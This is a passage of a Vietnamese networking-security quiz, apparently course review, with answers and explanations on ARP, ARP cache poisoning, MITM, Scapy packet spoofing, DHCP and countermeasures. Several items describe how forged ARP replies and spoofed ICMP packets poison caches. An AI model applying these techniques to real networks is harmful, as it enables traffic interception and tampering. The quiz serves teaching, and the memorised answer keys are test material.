- A. IP header (địa chỉ IP nguồn và đích)
- B. MAC header (địa chỉ MAC nguồn và đích)
- C. Cả IP header và MAC header
- D. Không có phần nào thay đổi

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    IP header (src IP, dst IP) **không thay đổi** trong suốt hành trình từ nguồn đến đích. Chỉ có MAC header thay đổi tại mỗi hop: router nhận frame, tháo MAC header cũ, và đóng gói lại với MAC header mới phù hợp cho đoạn mạng tiếp theo.

---

**Câu 12.** Tại sao ARP là giao thức dễ bị tấn công?

- A. Vì ARP dùng UDP thay vì TCP
- B. Vì ARP là stateless và không có cơ chế xác thực
- C. Vì ARP broadcast trên toàn Internet
- D. Vì ARP chỉ hoạt động với IPv4

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ARP là giao thức **stateless** — không lưu trạng thái và không xác minh xem mình có gửi request trước đó không. Khi nhận ARP reply (hoặc request với thông tin sender), node sẽ cập nhật cache ngay lập tức mà không kiểm tra tính hợp lệ. Điều này cho phép kẻ tấn công gửi ARP giả mạo để đầu độc cache.

---

**Câu 13.** Gratuitous ARP là gì?

- A. ARP request hỏi về MAC của một IP khác
- B. ARP reply trả lời cho một request cụ thể
- C. ARP packet mà sender tự quảng bá thông tin về chính mình (src IP = target IP, gửi broadcast)
- D. ARP packet dùng để xóa cache

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Gratuitous ARP là ARP request đặc biệt trong đó sender IP = target IP. Nó gửi broadcast để thông báo cho toàn mạng: "Tôi có IP X và MAC Y". Được dùng hợp pháp khi thiết bị khởi động hoặc thay đổi MAC. Nhưng cũng có thể bị lạm dụng để đầu độc ARP cache.

---

**Câu 14.** Trong tấn công ARP Cache Poisoning, sự khác biệt trong cách xử lý giữa ARP Request và ARP Reply/Gratuitous là gì?

- A. ARP Request cập nhật cache, ARP Reply thì không
- B. ARP Request được chấp nhận dù chưa có entry; ARP Reply/Gratuitous thường chỉ cập nhật khi đã có entry
- C. Không có sự khác biệt
- D. ARP Reply cập nhật cache, ARP Request thì không

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Với ARP Request: dù target chưa có entry cho sender trong cache, nó vẫn tự động thêm/cập nhật thông tin sender. Với ARP Reply/Gratuitous: một số hệ điều hành chỉ cập nhật cache nếu đã có entry tương ứng (hoặc đang chờ reply cho request đã gửi).

---

**Câu 15.** Công cụ Scapy được dùng để làm gì trong bối cảnh tấn công mạng?

- A. Quét cổng mạng
- B. Tạo và gửi các gói tin mạng tùy ý bằng Python
- C. Giải mã mật khẩu
- D. Tấn công từ chối dịch vụ phân tán

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Scapy là thư viện Python cho phép tạo, gửi, nhận và phân tích các gói tin mạng ở bất kỳ tầng nào. Trong bối cảnh bảo mật, nó được dùng để giả mạo ARP, ICMP, TCP và nhiều giao thức khác.

---

**Câu 16.** Trong Scapy, trường `op` trong lớp ARP có giá trị nào tương ứng với ARP Reply?

- A. 0
- B. 1
- C. 2
- D. 3

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Trong ARP, opcode `1` = Request (hỏi), opcode `2` = Reply (trả lời). Khi tạo ARP packet bằng Scapy, mặc định là request (op=1), cần set `arp.op = 2` để tạo reply.

---

**Câu 17.** Trong tấn công MITM dùng ARP Cache Poisoning, điều kiện tiên quyết là gì?

- A. Kẻ tấn công phải có quyền admin trên máy nạn nhân
- B. Kẻ tấn công phải ở trong cùng mạng LAN với nạn nhân
- C. Kẻ tấn công phải biết mật khẩu của nạn nhân
- D. Kẻ tấn công phải có địa chỉ IP công cộng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ARP chỉ hoạt động trong phạm vi một LAN (không được định tuyến qua Internet). Do đó, kẻ tấn công bắt buộc phải ở trong cùng mạng nội bộ với nạn nhân để thực hiện ARP Cache Poisoning.

---

**Câu 18.** Khi M thực hiện MITM giữa A và B bằng ARP Cache Poisoning, ARP cache của A sẽ bị thay đổi như thế nào?

- A. IP_A → MAC_M
- B. IP_B → MAC_M
- C. IP_M → MAC_B
- D. IP_B → MAC_A

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Để traffic từ A đến B đi qua M, A phải nghĩ rằng địa chỉ MAC của B là MAC_M. Vì vậy ARP cache của A bị đầu độc: `IP_B → MAC_M`. Tương tự, ARP cache của B bị đầu độc: `IP_A → MAC_M`.

---

**Câu 19.** Nếu M cấu hình như host thông thường (không phải router), điều gì xảy ra khi M nhận frame gửi từ A đến B?

- A. M tự động forward đến B
- B. M drop gói tin (không forward)
- C. M gửi ARP error về cho A
- D. M broadcast gói tin ra toàn mạng

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi IP forwarding tắt (máy host thông thường), kernel sẽ drop các gói tin mà IP đích không phải là chính nó. Để MITM hoạt động và relay gói tin, M cần bật IP forwarding hoặc tự tay bắt và forward gói tin bằng raw socket/Scapy.

---

**Câu 20.** Raw socket được dùng để làm gì trong tấn công MITM?

- A. Tạo kết nối TCP mã hóa
- B. Nhận bản sao của tất cả gói tin trước khi kernel xử lý/drop
- C. Gửi ARP broadcast
- D. Phân giải DNS

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Raw socket cho phép chương trình user-space nhận các gói tin ở tầng thấp trước khi kernel xử lý hoặc drop chúng. Đây là cơ chế cho phép M "nghe lén" và bắt các gói tin không dành cho mình.

---

**Câu 21.** Tại sao phải xóa trường checksum trước khi gửi gói tin đã sửa đổi bằng Scapy?

- A. Để giảm kích thước gói tin
- B. Vì checksum cũ không còn hợp lệ sau khi thay đổi payload; Scapy sẽ tự tính lại
- C. Để bypass firewall
- D. Vì Scapy không hỗ trợ checksum

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Checksum được tính dựa trên nội dung packet. Khi thay đổi payload, checksum cũ sẽ sai, gây ra việc gói tin bị phía nhận từ chối. Bằng cách xóa trường checksum, Scapy sẽ tự động tính lại checksum đúng khi gửi.

---

**Câu 22.** Sự khác biệt cơ bản giữa Netcat và Telnet trong cách truyền dữ liệu là gì?

- A. Netcat mã hóa dữ liệu, Telnet thì không
- B. Netcat gửi cả dòng khi nhấn Enter; Telnet gửi từng ký tự một và server echo lại
- C. Telnet gửi cả dòng; Netcat gửi từng ký tự
- D. Không có sự khác biệt

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Netcat buffer toàn bộ dòng rồi gửi một TCP packet khi nhấn Enter. Telnet gửi ngay mỗi ký tự vừa gõ trong một TCP packet riêng, rồi server echo ký tự đó về để hiển thị trên màn hình client (round-trip per character).

---

**Câu 23.** Biện pháp đối phó hiệu quả nhất chống lại MITM attack là gì?

- A. Dùng switch thay vì hub
- B. Cấu hình static ARP entries
- C. Mã hóa traffic (HTTPS, TLS, SSH)
- D. Dùng địa chỉ IP tĩnh

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Mã hóa là biện pháp hiệu quả nhất. Ngay cả khi kẻ tấn công thực hiện thành công ARP Cache Poisoning và trở thành MITM, nếu traffic được mã hóa, họ không thể đọc hoặc sửa đổi nội dung. Tốt nhất là chỉ có thể DoS (drop packets).

---

**Câu 24.** Khi traffic bị mã hóa và kẻ tấn công MITM không có key, điều gì kẻ tấn công vẫn có thể làm?

- A. Giải mã và đọc nội dung
- B. Sửa đổi nội dung payload
- C. Thực hiện Denial of Service (drop packets, gián đoạn kết nối)
- D. Lấy được mật khẩu

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Khi traffic được mã hóa, kẻ MITM không thể đọc hoặc sửa đổi nội dung có nghĩa. Điều duy nhất có thể làm là drop packets (không forward), gây ra Denial of Service — ngắt kết nối giữa hai nạn nhân.

---

**Câu 25.** IEEE quản lý việc phân bổ địa chỉ MAC như thế nào?

- A. Mỗi người dùng tự chọn MAC address
- B. IEEE cấp phát một phần không gian địa chỉ cho từng nhà sản xuất để đảm bảo tính duy nhất
- C. MAC address được tạo ngẫu nhiên bởi hệ điều hành
- D. MAC address được cấp bởi ISP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    IEEE quản lý và phân bổ **OUI (Organizationally Unique Identifier)** — 24 bit đầu của địa chỉ MAC — cho từng nhà sản xuất. Nhà sản xuất tự quản lý 24 bit còn lại. Điều này đảm bảo không có hai thiết bị nào trên thế giới có cùng MAC address.

---

**Câu 26.** Địa chỉ MAC `FF:FF:FF:FF:FF:FF` có ý nghĩa gì?

- A. Địa chỉ MAC không hợp lệ
- B. Địa chỉ broadcast — gửi đến tất cả thiết bị trong LAN
- C. Địa chỉ loopback
- D. Địa chỉ của router mặc định

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `FF:FF:FF:FF:FF:FF` là địa chỉ broadcast Ethernet. Frame gửi đến địa chỉ này sẽ được nhận bởi **tất cả** thiết bị trong cùng LAN. ARP Request sử dụng địa chỉ này.

---

**Câu 27.** Dynamic ARP Inspection (DAI) hoạt động dựa trên cơ chế nào?

- A. Mã hóa tất cả ARP packets
- B. Kiểm tra ARP packet dựa trên bảng DHCP snooping binding trước khi forward
- C. Chặn tất cả ARP traffic
- D. Yêu cầu xác thực password cho mỗi ARP request

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    DAI là tính năng của switch L2 thông minh. Switch duy trì bảng DHCP snooping (biết IP nào được cấp cho port nào). Khi có ARP packet đến, switch kiểm tra xem thông tin IP-MAC trong ARP có khớp với bảng DHCP snooping không. Nếu không khớp → drop ARP packet (có thể là giả mạo).

---

**Câu 28.** Trong Ethernet frame, trường nào dùng để phát hiện lỗi?

- A. EtherType
- B. Destination MAC
- C. CRC Checksum (FCS)
- D. Source MAC

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    CRC (Cyclic Redundancy Check) hay FCS (Frame Check Sequence) là trường 4 byte ở cuối Ethernet frame, dùng để phát hiện lỗi truyền dẫn. Thiết bị nhận tính lại CRC và so sánh với CRC trong frame; nếu khác nhau, frame bị drop.

---

**Câu 29.** Khi máy A muốn gửi gói tin đến máy B ở subnet khác, trong frame Ethernet, địa chỉ MAC đích sẽ là của ai?

- A. Máy B
- B. DNS server
- C. Default gateway (router)
- D. DHCP server

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Khi đích nằm ở subnet khác, A không thể gửi frame trực tiếp đến B. A gửi frame đến MAC của **default gateway (router)** trong subnet của mình. Router nhận, tháo MAC header, tra bảng định tuyến, và đóng gói lại frame mới để gửi đến subnet của B (với MAC đích là MAC của B hoặc router tiếp theo).

---

**Câu 30.** MAC Address Randomization trong iOS 8 giải quyết vấn đề gì?

- A. Tăng tốc độ kết nối Wi-Fi
- B. Ngăn việc Access Point theo dõi vị trí người dùng qua MAC address
- C. Giảm nhiễu sóng Wi-Fi
- D. Tự động kết nối mạng Wi-Fi tốt nhất

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Khi thiết bị quét tìm mạng Wi-Fi, nó phát quảng bá MAC address. Các AP có thể ghi nhớ MAC để theo dõi hành trình của người dùng (ví dụ trong trung tâm thương mại). MAC Randomization sử dụng MAC ngẫu nhiên khi quét, bảo vệ quyền riêng tư.

---

**Câu 31.** Trong Scapy, lệnh `sendp()` khác `send()` như thế nào?

- A. `sendp()` gửi ở tầng Layer 3 (IP), `send()` gửi ở Layer 2 (Ethernet)
- B. `sendp()` gửi ở tầng Layer 2 (Ethernet frame), `send()` gửi ở Layer 3 (IP packet)
- C. Không có sự khác biệt
- D. `sendp()` dùng TCP, `send()` dùng UDP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `send()` gửi gói tin ở Layer 3 — Scapy tự tạo Ethernet header. `sendp()` gửi ở Layer 2 — bạn phải cung cấp cả Ethernet header (lớp `Ether`). Khi giả mạo ARP, cần dùng `sendp()` vì ARP nằm ở Layer 2.

---

**Câu 32.** Tại sao kẻ tấn công từ xa (qua Internet) không thể thực hiện ARP Cache Poisoning?

- A. Vì ARP request quá lớn để truyền qua Internet
- B. Vì ARP packets không được định tuyến qua router — chỉ hoạt động trong LAN
- C. Vì ARP được mã hóa trên Internet
- D. Vì Internet không hỗ trợ ARP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ARP là giao thức chỉ hoạt động trong phạm vi một **broadcast domain** (LAN). Router không forward ARP broadcast ra ngoài subnet. Do đó, ARP Cache Poisoning chỉ có thể thực hiện bởi ai đó đang **kết nối trực tiếp** vào cùng mạng nội bộ với nạn nhân.

---

**Câu 33.** DHCP được dùng để làm gì khi thiết bị kết nối vào mạng?

- A. Phân giải tên miền
- B. Cấp phát IP address, địa chỉ router và DNS server cho client
- C. Xác thực người dùng
- D. Mã hóa dữ liệu truyền

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    DHCP (Dynamic Host Configuration Protocol) cấp cho client: địa chỉ IP, subnet mask, địa chỉ default gateway (router), và địa chỉ DNS server. DHCP request được đóng gói trong UDP → IP → Ethernet và gửi broadcast.

---

**Câu 34.** Trong ARP Poisoning Attack, trường `psrc` trong ARP packet giả mạo được đặt là gì?

- A. IP của kẻ tấn công
- B. IP của nạn nhân (giả vờ là nạn nhân)
- C. IP broadcast
- D. IP của router

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Kẻ tấn công muốn làm cho target tin rằng IP của nạn nhân (victim) tương ứng với MAC của kẻ tấn công (fake MAC). Vì vậy `psrc` (sender IP) = IP của victim, còn `hwsrc` (sender MAC) = FAKE_MAC của kẻ tấn công.

---

**Câu 35.** Kỹ thuật nào giúp kẻ tấn công "kích hoạt" target để target tạo ARP entry cho victim, từ đó tấn công ARP Reply poisoning hoạt động?

- A. Gửi ARP Request trực tiếp đến target
- B. Gửi spoofed ICMP echo request đến target giả vờ là victim, khiến target phải ARP hỏi victim
- C. Gửi TCP SYN đến target
- D. Gửi UDP flood đến target

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Nếu target chưa có ARP entry cho victim, ARP Reply giả sẽ bị bỏ qua. Giải pháp: kẻ tấn công gửi spoofed ICMP echo request đến target, giả vờ là victim. Target phải reply về victim → target gửi ARP Request để tìm MAC của victim → victim reply → target có entry hợp lệ → bây giờ kẻ tấn công gửi ARP Reply giả để ghi đè entry đó.

---

**Câu 36.** Để thực hiện MITM hoàn chỉnh giữa A và B, kẻ tấn công M cần đầu độc ARP cache của:

- A. Chỉ A
- B. Chỉ B
- C. Cả A và B
- D. Router

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Để traffic **hai chiều** đều đi qua M: A phải nghĩ MAC của B là MAC_M (traffic từ A đến B đi qua M), VÀ B phải nghĩ MAC của A là MAC_M (traffic từ B đến A cũng đi qua M). Nếu chỉ đầu độc một bên, chỉ có một chiều traffic đi qua M.

---

**Câu 37.** Lệnh `echo 0 > /proc/sys/net/ipv4/ip_forward` trên Linux có tác dụng gì?

- A. Bật IP forwarding (cho phép máy hoạt động như router)
- B. Tắt IP forwarding (máy drop các gói tin không dành cho mình)
- C. Xóa ARP cache
- D. Tắt network interface

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    `ip_forward = 0` nghĩa là tắt IP forwarding. Kernel sẽ drop các gói tin mà IP đích không phải là địa chỉ của máy đó. `ip_forward = 1` bật chức năng router, forward gói tin đến subnet khác.

---

**Câu 38.** Khi ping một địa chỉ IP không tồn tại **trong cùng subnet**, kết quả là gì?

- A. Request timed out
- B. Destination Host Unreachable (vì ARP không có ai trả lời)
- C. Network Unreachable
- D. Ping thành công (có reply giả)

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Đối với IP trong cùng subnet, kernel phải ARP để tìm MAC. Nếu IP không tồn tại, không có ai reply ARP → kernel không đóng frame được → báo "Destination Host Unreachable".

---

**Câu 39.** Các tầng nào trong mô hình OSI có thể bị lợi dụng để thực hiện MITM attack?

- A. Chỉ tầng Network
- B. Chỉ tầng Application
- C. Data Link (ARP poisoning), Network (ICMP Redirect), Application (DNS poisoning)
- D. Chỉ tầng Transport

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    MITM có thể thực hiện ở nhiều tầng: L2 dùng ARP Cache Poisoning, L3 dùng ICMP Redirect (chuyển hướng routing), L7 dùng DNS Cache Poisoning (giả mạo DNS response để redirect traffic). Mỗi tầng có cơ chế và phạm vi ảnh hưởng khác nhau.

---

**Câu 40.** Trong Ethernet frame, kích thước tối đa của payload (data) là bao nhiêu bytes?

- A. 64 bytes
- B. 512 bytes
- C. 1500 bytes
- D. 9000 bytes

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    Payload của Ethernet frame (theo chuẩn IEEE 802.3) có kích thước từ 46 đến 1500 bytes. Kích thước tối đa này gọi là MTU (Maximum Transmission Unit) của Ethernet. Jumbo frames có thể đạt 9000 bytes nhưng là tùy chọn không chuẩn.

---

**Câu 41.** Thông tin gì không được lưu trong ARP cache?

- A. Địa chỉ IP
- B. Địa chỉ MAC
- C. TTL
- D. Số cổng (port number)

??? info "Đáp án & Giải thích"
    **Đáp án: D**
    
    ARP cache lưu ánh xạ `<IP address, MAC address, TTL>`. Port number là khái niệm của tầng Transport (TCP/UDP), không liên quan đến ARP ở tầng Data Link/Network.

---

**Câu 42.** Tấn công ARP Cache Poisoning có thể được sử dụng để thực hiện loại tấn công nào ngoài MITM?

- A. SQL Injection
- B. Denial of Service (DoS) — chặn kết nối của nạn nhân
- C. Brute force password
- D. XSS (Cross-Site Scripting)

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Ngoài MITM, ARP Cache Poisoning có thể dùng để DoS: đầu độc cache của nạn nhân với MAC không tồn tại hoặc MAC của chính mình (nhưng không forward), làm cho nạn nhân không thể giao tiếp với đích. Hoặc đầu độc cache để chặn kết nối ra gateway.

---

**Câu 43.** Trong quá trình bắt tay DHCP, DHCP Request được đóng gói như thế nào?

- A. TCP → IP → Ethernet
- B. UDP → IP → Ethernet (802.3)
- C. ARP → Ethernet
- D. Trực tiếp trong Ethernet frame không cần IP

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    DHCP là giao thức ứng dụng chạy trên UDP (port 67/68). Do đó đóng gói là: DHCP → UDP → IP → Ethernet. DHCP Request ban đầu dùng IP broadcast (255.255.255.255) vì client chưa có IP.

---

**Câu 44.** Telnet khác SSH ở điểm gì liên quan đến bảo mật?

- A. Telnet nhanh hơn SSH
- B. Telnet truyền dữ liệu dạng plaintext, SSH mã hóa toàn bộ
- C. SSH không hỗ trợ xác thực bằng password
- D. Telnet sử dụng port 22, SSH sử dụng port 23

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Telnet truyền toàn bộ dữ liệu (kể cả username/password) dạng plaintext — hoàn toàn dễ bị sniff và MITM. SSH (Secure Shell) mã hóa toàn bộ session. SSH dùng port 22, Telnet dùng port 23.

---

**Câu 45.** Trong mô hình OSI, ARP hoạt động giữa tầng nào?

- A. Chỉ tầng Data Link
- B. Chỉ tầng Network
- C. Giao tiếp giữa tầng Network (IP) và tầng Data Link (MAC) — thường xếp vào L2/L3 boundary
- D. Tầng Transport

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    ARP hoạt động ở ranh giới giữa Layer 2 (Data Link) và Layer 3 (Network). Nó nhận đầu vào là địa chỉ L3 (IP) và trả về địa chỉ L2 (MAC). Thường được phân loại là L2 protocol nhưng phục vụ L3.

---

**Câu 46.** Static ARP entry là gì và nhược điểm của nó là gì?

- A. ARP entry tự động cập nhật mỗi giây; nhược điểm là tốn tài nguyên
- B. ARP entry được gán thủ công, không thay đổi; nhược điểm là khó quản lý trong mạng lớn
- C. ARP entry được mã hóa; nhược điểm là chậm
- D. ARP entry lưu trên cloud; nhược điểm là phụ thuộc Internet

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Static ARP entry là ánh xạ IP-MAC được admin cấu hình thủ công và không bị overwrite bởi ARP động. Hiệu quả chống poisoning nhưng rất khó quản lý khi mạng có nhiều thiết bị hoặc thiết bị hay thay đổi.

---

**Câu 47.** Khi M thực hiện MITM và sửa đổi nội dung gói tin, điều gì giúp B không phát hiện được (trong trường hợp không mã hóa)?

- A. M gửi gói tin với IP nguồn là IP của A, không phải IP của M
- B. M dùng VPN để ẩn danh
- C. M thay đổi địa chỉ MAC của mình liên tục
- D. M làm chậm kết nối để B không nhận ra

??? info "Đáp án & Giải thích"
    **Đáp án: A**
    
    M relay gói tin với IP header nguyên vẹn (IP src = IP_A, IP dst = IP_B), chỉ thay đổi payload. B nhận gói tin thấy đúng IP nguồn là A → không nghi ngờ. Chỉ có MAC header thay đổi (MAC src = MAC_M thay vì MAC_A) nhưng B thường không kiểm tra sự nhất quán MAC-IP.

---

**Câu 48.** Trong Scapy, cú pháp `/` giữa các lớp có ý nghĩa gì?

- A. Chia đôi packet
- B. Stack (chồng) các lớp lên nhau để tạo packet hoàn chỉnh
- C. So sánh hai packet
- D. Gửi packet song song

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Trong Scapy, `/` là toán tử stack các lớp. Ví dụ `Ether() / ARP()` tạo ra một Ethernet frame chứa ARP packet. `Ether() / IP() / TCP()` tạo frame đầy đủ. Scapy tự động điền các trường tương ứng giữa các lớp.

---

**Câu 49.** Nếu kẻ tấn công M đầu độc ARP cache của router (thay vì A và B), hậu quả là gì?

- A. Không có tác dụng
- B. Toàn bộ traffic từ subnet qua router có thể bị chặn hoặc chuyển hướng đến M
- C. Chỉ ảnh hưởng đến một máy cụ thể
- D. Router sẽ tự động phục hồi ngay lập tức

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Nếu ARP cache của router bị đầu độc (router nghĩ MAC của host X là MAC_M), thì traffic từ bên ngoài gửi đến host X sẽ bị chuyển đến M. Tùy thuộc vào thiết kế, có thể ảnh hưởng lớn hơn nhiều so với chỉ đầu độc một host.

---

**Câu 50.** Ngoài ARP Cache Poisoning, còn có kỹ thuật nào khác để thực hiện MITM ở tầng Network?

- A. MAC flooding
- B. ICMP Redirect
- C. SYN flood
- D. DHCP starvation

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    ICMP Redirect là kỹ thuật MITM ở Layer 3 (Network): kẻ tấn công gửi ICMP Redirect message giả mạo đến nạn nhân, báo rằng có route tốt hơn qua một gateway khác (thực ra là IP của kẻ tấn công). Nạn nhân cập nhật routing table và gửi traffic qua kẻ tấn công. MAC flooding và DHCP starvation là các tấn công khác không trực tiếp là MITM theo nghĩa thông thường.

---

**Câu 51.** Trong ví dụ về DHCP, DHCP ACK chứa thông tin gì?

- A. Chỉ địa chỉ IP của client
- B. Địa chỉ IP của client, IP của first-hop router, tên và IP của DNS server
- C. Địa chỉ MAC của router
- D. Chỉ địa chỉ DNS server

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    DHCP ACK (phản hồi cuối của DHCP server) cung cấp đầy đủ thông tin để client có thể hoạt động trong mạng: địa chỉ IP của client, IP của first-hop router (default gateway), và tên + IP của DNS server.

---

**Câu 52.** Trong quá trình kết nối TCP 3-way handshake, thứ tự các bước là gì?

- A. SYN → ACK → SYNACK
- B. SYNACK → SYN → ACK
- C. SYN → SYNACK → ACK
- D. ACK → SYN → SYNACK

??? info "Đáp án & Giải thích"
    **Đáp án: C**
    
    TCP 3-way handshake: (1) Client gửi **SYN**, (2) Server phản hồi **SYN-ACK**, (3) Client gửi **ACK**. Sau bước 3, kết nối TCP được thiết lập và có thể bắt đầu truyền dữ liệu (ví dụ HTTP request).

---

**Câu 53.** Khi sniff thấy gói tin ping đến địa chỉ 1.2.3.4 (không tồn tại, ngoài mạng local), kẻ tấn công trong cùng mạng có thể làm gì?

- A. Không làm được gì
- B. Gửi spoofed ICMP echo reply giả vờ là 1.2.3.4, victim sẽ nhận được reply giả
- C. Chặn gói tin ping
- D. Redirect gói tin đến server thật

??? info "Đáp án & Giải thích"
    **Đáp án: B**
    
    Đây là bài tập homework trong slide. Kẻ tấn công (cùng mạng) sniff gói tin ICMP echo request từ victim đến 1.2.3.4. Sau đó gửi ICMP echo reply giả (src IP = 1.2.3.4, dst IP = victim IP). Victim nhận reply → ping thấy "thành công" — dù địa chỉ đó không tồn tại thực sự. Điều này minh họa sự nguy hiểm của packet spoofing.
